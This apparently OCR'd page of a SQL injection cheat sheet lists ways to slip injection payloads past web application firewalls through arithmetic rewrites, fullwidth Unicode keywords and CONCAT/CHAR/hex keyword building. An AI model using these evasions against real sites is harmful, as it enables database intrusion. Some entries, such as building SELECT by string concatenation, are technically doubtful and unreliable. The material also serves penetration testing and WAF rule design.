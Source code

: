 ### Logic Alternative Bypass

Used to avoid common WAF patterns in logical operations:

```sql
# Mathematical operations
WHERE id=1  ->  WHERE id=2-1
WHERE id=1  ->  WHERE id=abs(1)
WHERE id=1  ->  WHERE id=pow(1,1)

# Boolean operations
WHERE id=1  ->  WHERE id BETWEEN 1 AND 1
WHERE id=1  ->  WHERE id IN(1)
WHERE id=1  ->  WHERE id=LEAST(1,1)

# String operations
WHERE name='admin'  ->  WHERE SUBSTR(name,1)='admin'
WHERE name='admin'  ->  WHERE LPAD(name,5)='admin'

# Useful when: WAF blocks simple numeric comparisons or string matches
```

### Unicode Normalization Bypass

Used against WAFs that don't properly handle Unicode characters:

```sql
# Fullwidth character substitution
SELECT -> ＳＥＬＥＣＴ
UNION -> ＵＮＩＯＮ
FROM -> ＦＲＯＭ

# Unicode alternative characters
SELECT -> ＳᵉＬＥＣＴ
UNION -> ＵＮＩＯＮ

# Mixed Unicode and normal characters
SEＬEＣＴ
UＮIＯN

# Useful when: WAF has sophisticated pattern matching but doesn't normalize Unicode input
```

### String Concatenation Bypass

Used to avoid direct keyword detection:

```sql
# Basic concatenation
'SEL'+'ECT'  ->  SELECT
CONCAT('SEL','ECT')  ->  SELECT

# ASCII/CHAR conversion
CONCAT(CHAR(83),CHAR(69),CHAR(76),CHAR(69),CHAR(67),CHAR(84))  # SELECT
CONCAT(CHAR(85),CHAR(78),CHAR(73),CHAR(79),CHAR(78))  # UNION

# Hex concatenation
CONCAT(0x53,0x45,0x4C,0x45,0x43,0x54)  # SELECT

# Mixed methods
CONCAT(CHAR(83),0x45,'L','ECT')  # SELECT

# Useful when: WAF has sophisticated pattern matching but doesn't handle string operations
```